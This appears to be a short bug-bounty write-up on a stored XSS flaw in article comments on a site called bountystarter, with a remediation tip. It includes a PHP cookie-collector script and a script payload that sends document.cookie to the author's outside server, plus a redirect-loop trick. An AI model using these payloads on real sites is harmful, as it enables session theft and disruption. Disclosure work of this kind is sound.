

## 1 Description :
I found a vulnerability in the comment part of articles on **bountystarter** website.
This vulnerability is **XSS stored**.

---

## 2 Exploitation :
I have read the source code of the web application and I see in the comment part user comments are inside <p> tag.
For example :

````html
<p>
   My wonderful comment
</p>
````

But if I close this tag and inject Javascript instructions can I steal cookies ?

---

## 3 PoC :
### 3.1 Prepare :
I have created a PHP script on my web server *guillaume-petit.fr*.
The script *cookies.php* save all cookie *get parameters* in *cookies.txt* file :
````php
<?php
    $fp = fopen('cookies.txt', 'w');		// open cookies.txt file
    fwrite($fp, $_GET["cookie"]);			// write cookie get parameter in cookies.txt
    fclose($fp);							// close cookies.txt file
?>
````

---

### 3.2 Exploit :
In comment part in the article of the website :
[https://bountystarter.com](https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/view/Win%20tickets%20for%20Esport%20main%20event)

After, I inject in part comment my JavaScript instructions :
````html
</p>
<script>
	window.open("http://guillaume-petit.fr/cookies.php?cookie="+document.cookie)
</script>
````

I reload the page and test if my cookie is saved into my server.
No, none cookie saves inside *cookies.txt* file, because cookies are created on the computer with **http only** flag.
So anyone can steal cookies with this tip.

---

## 4 Conclusion :
To conclude I have found a bug XSS injection stored, but I can't exploit this one because cookies are created with http only flag.

---

## 5 Bonus the hell loop :
Ok my injection doesn't work but, I can create a hell loop inside the application.

To creating this loop I need to modify the php script in my web server :
````php
<?php
	header("Location: https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/view/Win%20tickets%20for%20Esport%20main%20event", true, 301);
?>
````

Representation of attack :


---

## 6 Risk :
No risk as long as cookies are set with the http only flag.

---

## 7 Remediation :
Use strip_tags() fonction for filter user input and escape html tags.